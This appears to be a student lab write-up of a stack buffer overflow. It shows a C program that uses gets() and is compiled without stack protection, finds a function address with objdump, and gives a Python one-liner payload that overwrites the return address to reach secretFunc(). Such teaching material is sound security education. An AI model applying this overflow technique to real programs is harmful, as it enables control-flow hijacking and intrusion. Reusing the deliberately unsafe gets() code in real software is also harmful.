




# Buffer Overflow Attack on `bof1.c`

```c++
#include <stdio.h>
#include <unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln()
{
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char *argv[])
{
    if (argv[1] == 0)
    {
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

The target is to call the function `secretFunc()` by providing a large amount of input that overflow the size of the array `char array[200]`.

## Compile the source code

We compile the source code with `-fno-stack-protector` to disable the stack protector.

    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2



A new file `bof1.o` is created.

Here we get a warning:

```shell
bof1.c: In function 'vuln':
bof1.c:11:5: warning: implicit declaration of function 'gets' [-Wimplicit-function-declaration]
     gets(array);
     ^
/tmp/ccH5mRoJ.o: In function `vuln':
/home/seed/seclabs/review2/bof1.c:11: warning: the `gets' function is dangerous and should not be used.
```

This is because the source code used `gets()` which is a vulnerable function. It it doesn’t limit the amount of data it reads, making it susceptible to buffer overflows.

`gets()` has been removed from modern versions of the C standard because it can lead to arbitrary code execution via buffer overflow.

## Finding the address of the `secretFunc()`

In order to call the function `secretFunc()`, we need to know its address. We can obtain this address using `objdump`.

```bash
objdump -d bof1.o | grep secretFunc
```



The address of the function is `0x0804846b`. When writing this address to the stack, we need to represent it in **Little Endian** format, meaning it is reversed in memory (`6b 84 04 08`)

## Attack

We will overflow the stack frame of the `vuln()` function, specifically the local `array` variable. The goal is to overwrite the saved return address (`eip`) on the stack, causing it to jump to `secretFunc()`.

### Stack frame of `vuln()`:



We need to input a large amount of charactors so that it exceed the 200 bytes char array plus 4 bytes of `ebp`, and overwrite the value of `eip` so that it will call the function `secretFunc()` instead of returning to `main()`.

Remember, the address of `secretFunc()` is `0x0804846b`, and we need to write it in reverse.

The input should be 200 bytes to fill the memory spared for the `array` local variable, and 4 bytes to fill the memory of `ebp`, then we will insert the address of `secretFunc()` into `eip`.

Since the input is so long, I will use Python to do it for me

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')")
```

### Explain:

-   `'a' * 200`: 200 characters for the `array`.
-   `'b' * 4`: 4 characters for the `ebp`.
-   `'\x6b\x84\x04\x08'`: address of `secretFunc()` written in **Little Endian** format.

To inject the output of the `echo` into the input of the program, we will add `| ./bof1.o 1` after the `echo`:

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')") | ./bof1.o 1
```

### Result:



We got the message `Congratulation!`, which means we have successfully redirect execution to `secretFunc()`!
